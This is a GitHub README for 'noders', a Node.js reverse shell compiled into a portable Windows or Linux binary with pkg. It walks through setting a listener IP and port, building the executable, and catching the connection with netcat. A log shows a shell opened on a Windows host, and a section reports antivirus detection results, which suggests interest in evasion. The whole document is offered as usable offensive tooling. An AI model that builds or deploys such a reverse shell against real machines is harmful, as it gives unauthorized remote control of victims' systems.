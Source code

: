 # noders

portable node.js secure reverse shell using https://github.com/zeit/pkg 

**Usage**

- Update 'noders.js' or 'noderss.js' source listener ip:port, binary (cmd.exe, /bin/sh, etc), ca public key (noderss.js only).
- Compile using pkg to target platform https://github.com/zeit/pkg#targets

Setup
```
root@kali:/opt/noders# npm install -g pkg
root@kali:/opt/noders# pkg -t win noders.js
> pkg@4.4.0
> Fetching base Node.js binaries to PKG_CACHE_PATH
  fetched-v10.15.3-win-x64     [====================] 100%
  fetched-v10.15.3-linux-x64   [====================] 100%
root@kali:/opt/noders# ls
noders.exe  noders.js
```
Listener
```
root@kali:~# nc -lvp 8080
listening on [any] 8080 ...
192.168.116.173: inverse host lookup failed: Unknown host
connect to [192.168.116.200] from (UNKNOWN) [192.168.116.173] 50053
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\IEUser\Desktop>whoami
whoami
msedgewin10\ieuser

```

**AV Detection**

<img width="1317" alt="Screenshot 2019-11-23 at 21 30 06 2" src="https://user-images.githubusercontent.com/56988989/69485670-9e015180-0e3a-11ea-95c4-5a9b2dd88f24.png">

**Limitations**

Portable binary size is at least 30MB. 
